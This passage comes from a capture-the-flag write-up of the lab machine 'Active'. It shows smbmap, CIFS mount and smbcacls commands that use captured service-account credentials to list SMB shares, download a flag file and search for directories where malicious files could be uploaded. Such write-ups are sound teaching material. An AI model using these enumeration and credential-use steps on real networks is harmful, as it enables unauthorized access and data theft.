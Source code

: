 ```bash
smbmap -H 10.10.10.100 -u 'svc_tgs' -p 'G...8' --no-banner -r Users/
smbmap -H 10.10.10.100 -u 'svc_tgs' -p 'G...8' --no-banner -r Users/SVC_TGS/Desktop

smbmap --help
# -d DOMAIN             Domain name (default WORKGROUP)
# -r [PATH]             Recursively list dirs and files (no share\path lists the root of ALL shares), ex. 'email/backup'
# -q                    Quiet verbose output. Only shows shares you have READ or WRITE on, and suppresses file listing when performing a search (-A).
# -A PATTERN            Define a file name pattern (regex) that auto downloads a file on a match (requires -r), not case
                        sensitive, ex '(web|global).(asax|config)'

smbmap -H 10.10.10.100 -u 'svc_tgs' -p 'G...8' --no-banner -r Users -q -d ACTIVE.HTB -A user.txt
smbmap -H 10.10.10.100 -u 'svc_tgs' -p 'G...8' --no-banner --download Users/svc_tgs/Desktop/user.txt
```

<br />
<img src="{{ site.img_path }}/active_writeup/Active_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have credentials I try again to setup the mounts and this time I succeed, which allows me to enumerate first the **Replication** share faster but I can't find files or information that would allow me to access the system. With `df` I can get information from the mounted resource, such as space used, to make a guess as to how many files I would have to investigate. Another attack vector I investigate is my ability to write to directories accessible for uploading malicious content, so with an oneliner and with the help of `smbcacls` I search for directories where I have this ability but find none. If I mount the other resource, **Users*, I'm not allowed to upload content either.

```bash
pushd /mnt
mkdir SMBActive
mount -t cifs //10.10.10.100/Replication /mnt/SMBActive -o username='svc_tgs',password='G...8',domain='ACTIVE.HTB',rw
tree -fas
df -h
df -k -F cifs

find . \-type d 2>/dev/null
find . \-type d 2>/dev/null | sed -e 's/^\.\///'
find . \-type d 2>/dev/null | sed -e 's/^\.\///' | while read directory; do echo -e "\n[+] ACLs/Everyone on $directory"; smbcacls //10.10.10.100/Replication active.htb/$directory -U 'SVC_TGS%G...8' | grep -i "everyone"; done

umount SMBActive
mount -t cifs //10.10.10.100/Users /mnt/SMBActive -o username='svc_tgs',password='G...8',domain='ACTIVE.HTB',rw
find . \-type d 2>/dev/null | sed -e 's/^\.\///' | while read directory; do echo -e "\n[+] ACLs/Everyone on $directory"; smbcacls //10.10.10.100/Users $directory -U 'SVC_TGS%G...8' | grep -i "everyone"; done
```